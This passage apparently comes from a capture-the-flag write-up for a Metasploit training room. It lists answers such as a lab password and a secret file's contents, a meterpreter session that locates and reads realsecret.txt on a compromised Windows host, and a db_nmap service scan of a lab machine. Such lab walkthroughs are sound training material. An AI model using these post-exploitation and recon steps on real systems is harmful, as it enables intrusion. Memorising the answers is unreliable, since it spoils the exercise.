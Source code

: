 What is the Twitter password revealed in the "secrets.txt" file? `KDSvbsw3849`

Where is the "realsecret.txt" file located? (Full path of the file) `c:\inetpub\wwwroot\realsecret.txt `
```
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100

meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd "inetpub"
meterpreter > pwd
C:\inetpub
meterpreter > cd "wwwroot"
meterpreter > cat realsecret.txt
The Flash is the fastest man alive
```
What is the real secret?   `The Flash is the fastest man alive`

## [Task 5] Move that shell! 

Remember that database we set up? In this step, we're going to take a look at what we can use it for and exploit our victim while we're at it!

As you might have noticed, up until this point we haven't touched nmap in this room, let alone perform much recon on our victim box. That'll all change now as we'll take a swing at using nmap within Metasploit. Go ahead and deploy the box now, it may have up to a three-minute delay for starting up our target vulnerable service.

*Note, Metasploit does support different types of port scans from within the auxiliary modules. Metasploit can also import other scans from nmap and Nessus just to name a few.

1. Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command 'db_nmap -sV BOX-IP'

```
msf5 > db_nmap -sV 10.10.223.155
[*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-11 04:57 EDT
[*] Nmap: Nmap scan report for 10.10.223.155
[*] Nmap: Host is up (0.067s latency).
[*] Nmap: Not shown: 988 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: 8000/tcp  open  http               Icecast streaming media server
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49158/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49159/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49160/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 71.23 seconds
```
